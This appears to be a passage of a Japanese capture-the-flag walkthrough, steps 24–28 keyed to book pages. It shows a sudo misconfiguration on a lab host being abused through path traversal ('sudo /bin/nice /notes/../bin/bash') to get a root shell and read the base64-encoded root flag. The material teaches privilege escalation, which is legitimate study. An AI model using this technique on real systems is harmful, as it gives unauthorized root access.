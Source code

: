 ### 24. sudo の設定を確認する(p374)

```sh
webadmin@serv:/home/florianges$ sudo -l
> (ALL : ALL) /bin/nice /notes/*
```

### 25. nice コマンドのマニュアルを読む(p374)

```sh
webadmin@serv:/home/florianges$ man /bin/nice
```

### 26. "/notes" ディレクトリを調べる(p375)

```sh
webadmin@serv:/home/florianges$ cd /notes
webadmin@serv:/notes$ ls -al
> clear.sh
> id.sh
webadmin@serv:/notes$ sudo /bin/nice /notes/clear.sh
webadmin@serv:/notes$ sudo /bin/nice /notes/id.sh
```

### 27. nice コマンドを利用してルートシェルを奪取する(p376)

```sh
webadmin@serv:/notes$ sudo /bin/nice/ /notes/../bin/bash
root@serv:/notes#
```

### 28. フラグファイルを開く(p376)

```sh
root@serv:/notes# cd
root@serv:/root# ls -al
> root.txt
root@serv:/root# cat root.txt
root@serv:/root# cat root.txt | base64 -d
> licorne ...
```
